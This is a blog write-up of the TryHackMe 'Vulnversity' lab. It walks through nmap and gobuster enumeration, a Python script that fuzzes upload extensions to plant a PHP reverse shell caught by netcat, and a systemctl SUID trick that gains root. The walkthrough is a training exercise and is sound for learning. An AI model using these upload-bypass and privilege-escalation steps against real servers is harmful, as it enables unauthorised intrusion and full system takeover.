 ```yaml
---
weight: 1
title: "TryHackMe - Vulnversity Writeup"
date: 2021-07-10
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["upload-vuln", "GTFOBins"]
categories: ["TryHackMe"]

lightgallery: true
toc:
  auto: false
---
```


[Link : https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

## Enumeration

First we need to do reconnaissance by using nmap (Network Mapper) to find open ports and to understand the machine. I'm gonna run this command:

```
nmap -sC -sV -O -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -O 	:= scan for OS (operating system) 	
* -oN := output in normal format

Now our nmap scan is done. So, let's do bad thing _evil grin_ lol. Just joking okayy.

![2](2.png)

We can see this machine have 6 ports open. The result always screaming that lot of services running on ubuntu. We can see that this machine also have squid proxy and the version too. So, first maybe we can try ftp login as anonymous but unfortunately we cannot login ftp as anonymous.

This machine have http on port 3333 and running on apache web server. Let's take a look!

![3](3.png)

OH! what a lovely website. We know that they have a website and we can enumerate futher by using gobuster tool. Gobuster is a tool for searching hidden directory in the web. If you doesn't have gobuster. You.... yeah...youuu can visit this [github repos](https://github.com/OJ/gobuster).

Let's run gobuster using this command

```
gobuster dir -u http://10.10.111.81:3333/ -w /opt/directory-medium.txt --no-error
```

### Explaining gobuster flag:
* dir	  := using directory mode
* -u		:= specify url
* -w		:= specify wordlist
* --no-error := no error

![4](4.png)

So, here's the result. If you look super close but not at the monitor though jk. Gobuster found a hidden directory called /internal. Let's go to that hidden directory.

![5](5.png)

Apparently, that's directory leads us to this page a.k.a upload page. We can upload php reverse shell on that.

## Foothold/Gaining Access

But how to get php reverse shell and how to setup, even how to use it. (it's okay I got you ladies & gentlemen)

1. Go to this [site here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
2. Download it or you can copy it. If you copy it, make sure to save it in the file with php extensions. example := revshell.php
3. Open the file and change the ip address to yours tryhackme ip address, If you want to change the port. Just change it. The port in this case is going to be a listing port.

![6](6.png)<br>
_original_

![7](7.png)<br>
_alter with ip and port_

However, when we upload a php file to the page it's gonna response ‘extension not allowed’. Looking back at the questions ‘TASK 4’. Now we know that we can fuzz this upload page with different file extensions.

So, I gonna make python script for that. You can use burpsuite if you want to. Why I'm using python script??? because I want to learn duhhh and I'm not saying that I really good in python NO. TBH I wacthed a lot of tutorial for just simple task and I keep adding time in this box. man oh man. It's worth it tho. So here is my script

```python
#!/usr/bin/python3

import requests
import os

url = "http://10.10.111.81:3333/internal/"
action = "/index.php"

data = {
	'file':'/index.php',
	'submit':'Submit'
}

oldfile = "revshell.php"
file = "revshell"

extensions = ['.php','.php3','.php4','.php5','.phtml']

for ext in extensions:
	newfile = file + ext
	rename = os.rename(oldfile, newfile)
	
	file_to_upload = {'file': open(newfile, 'rb')}

	r = requests.post(url + action, data=data, files=file_to_upload)

	if "Extension not allowed" in r.text:
		print(f"This file not allowed : {newfile}")
	else:
		print(f"This file is allowed : {newfile}")

	oldfile = newfile
```

Let's run the script and finally yes. We got a hit boys. This page only accept .phtml extensions. COOL

![8](8.png)

Now we need to setup netcat listener to the port that we change in the our reverse shell. If you can see I'm listen to the port 6969, because I'm using this port in my reverse shell

```
nc -lnvp 6969
```
To activated our reverse shell go to this url http://10.10.111.81:3333/internal/uploads/ . But how you found the `/uploads` directory. Good questions. Just run gobuster against /internal directory. We found this.

![9](9.png)

To activated our shell just double click at our reverse shell file. Mine here name revshell.phtml but yours maybe different. I don't know because this is mine not yourssss!!!! joking of course. Please don't be offended. HAHAHAHAH jk.

Now we're in!!!!Now let's hunt the user flag. So, let's navigate ourselves to the home directory to list a user directory. WOW!!! now we know that bill the one who manage this webserver.

![10](10.png)

Let's go into bill's home directory to find user flag. Yes we got a user flag. To read this flag you need to use the `cat command`

![11](11.png)

## Privilege Escalation

How to be root. Now we can do a basic enumeration if you want. Anyways, the questions ask what the most stand out file in SUID file. To find this file called SUID we need run this command

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/
```

So, this command means find all SUID file that owns by root user. After find it, make it the file in the list using ls. If we got an errors please don't display the errors to us. 

![12](12.png)

We got all of this but how to find the one that most stand out. You can make your linux machine as the base line. Try run the same command in your box and try compare it.

In this case the file called `/bin/systemctl` the most stands out. So, we're gonna use systemctl to be root but how. Easy, just go to this site called [GTFObins](https://gtfobins.github.io/#) . Try search systemctl suid in it.

So, I don't know where is the flag are. What I'm gonna do, is to make file `/bin/bash` as `SUID`. Hmm, sound fun! With it we can be root or to be specific euid root

To use this command just take all and copy it in the box

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
After you've done copy and paste that command. 
Run `/bin/bash -p` and now become root.

Just navigate through root directory and you found the flag

![13](13.png)

## Conclusion

I’ve learned a lot today. If you have an upload page on your website make sure you use the filter options. Filter out the bad file to make your site a bit safer. Also, you must configure your file permission very-very-very-very-very good. If you see, I become root with simple misconfigure file permission and that's it.

This room so much fun and I hope you guys have fun and learn something new today.